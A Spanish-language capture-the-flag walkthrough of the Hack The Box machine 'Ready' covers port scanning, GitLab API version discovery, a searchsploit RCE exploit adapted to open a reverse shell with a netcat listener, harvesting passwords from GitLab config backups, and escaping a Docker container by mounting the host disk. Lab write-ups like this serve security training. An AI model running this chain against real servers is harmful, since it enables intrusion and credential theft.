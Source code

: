 ```yaml
---
layout: post
title: HTB_Ready.md
date: 2023/07/10
---
```


# Ready {-}

## Introduccion {-}

La maquina del dia se llama Ready.

El replay del live se puede ver aqui

[![S4vitaar Ready maquina](https://img.youtube.com/vi/DRSMsAKuXX0/0.jpg)](https://www.youtube.com/watch?v=DRSMsAKuXX0)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.220
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.220
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.220 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,5080 10.10.10.220 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 5080   | http          | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.220
```

Es un nginx con gitlab y nos reporta un redirect al http://10.10.10.220/users/sign_in 

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.220:5080` nos redirige automaticamente a la pagina de Sign in de gitlab Community edition.
Siendo un gitlab podemos ver el `robots.txt`.

Vemos routas que pueden ser interesantes como

- /api


En el caso de la routa `/api` si tiramos de esta routa con firefox, vemos que necessitamos logearnos para continuar. Pero en ciertos casos,
hay possibilidades de poder, de forma no authenticada, obtener informaciones relevantes.

Si buscamos en google por `gitlab api`, vemos de que manera podemos utilizar la api para recoger informaciones.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version"
```

Aqui vemos que necessitamos un token y para esto tenemos que crearnos un usuario. Lo hacemos desde la web. Una vez hecho nos podemos loggear
y desde la interface de gitlab, si vamos a Settings, nos podemos crear un token. Lo copiamos y lo añadimos a un header con curl.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version" -H "PRIVATE-TOKEN: 514gTTxhx3qpsBbJbfz9" | jq
```

Aqui vemos que la version de gitlab es la 11.4.7


## Vulnerability Assessment {-}

### Gitlab {-}

```bash
searchsploit gitlab 11.4.7
```

Aqui vemos exploits que nos permite hacer Remote Code Execution.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Gitlab {-}

```bash
searchsploit -m 49257
mv 49257.py gitlab_rce.py
vi gitlab_rce.py
```

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

- url de la maquina victima
- url de la maquina de atacante
- puerto de escucha
- usuario gitlab
- authenticity_token
- cookie de session.

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a `Ctrl+Shift+c > Almacenamiento` y podemos ver el `_gitlab_session`

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script con el commando `python3 gitlab_rce.py`


```bash
whoami
#Output
git
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Podemos ir al directorio `/home/dude` y visualizar la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
echo $PATH
cd /
find \-perm -4000 2>/dev/null
hostname -I
hostname
```

Aqui podemos ver que el comando `hostname -I` nos da una ip que no es la ip de la maquina victima. Estamos en un contenedor

#### Escapar del contenedor {-}

```bash
cd /
ls -la
cd /opt
ls -l
```

Vemos un fichero `/root_pass` en la raiz, y en el directorio opt vemos un directorio `backup` y `gitlab`.

```bash
cat /root_pass
#Output
YG65407Bjqvv9A0a8Tm_7w

su root
Password: YG65407Bjqvv9A0a8Tm_7w

su dude
Password: YG65407Bjqvv9A0a8Tm_7w
```

No es una contraseña.

```bash
cd /opt
ls 
cd /backup
ls -l

cat docker-compose.yml
cat gitlab-secrets.json
cat gitlab-secrets.json | grep "pass"
cat gitlab-secrets.json | grep "user"
cat gitlab.rb
cat gitlab.rb | grep "pass"
```

Hay mucha informacion en estos ficheros. El gitlab.rb contiene un password para el servicio smtp.

```bash
su root
Password: wW59U!ZKMbG9+*#h
whoami
#Output
root
```

Emos podido passar al usuario root pero del contenedor. Aqui algo que todavia suena turbio es este fichero `root_pass`.
Buscamos en los ficheros la coincidencias de este fichero

```bash
grep -r -i "root_pass" 2>/dev/null
```

Aqui vemos un `/dev/sda2` que parece montado sobre un **root_pass**

```bash
df -h
fdisk -l
```

Aqui vemos que en `/dev/sda2` hay un linux filesystem de 18G que se monta directamente con `/root_pass`. Vamos a intentar montarlo.

```bash
mkdir /mnt/mounted
mount /dev/sda2 /mnt/mounted
ls -l
cd /root
cat root.txt
```

Ademas podemos connectarnos como root directamente a la maquina victima con ssh porque tenemos accesso a la id_rsa del usuario root de la maquina
victima.
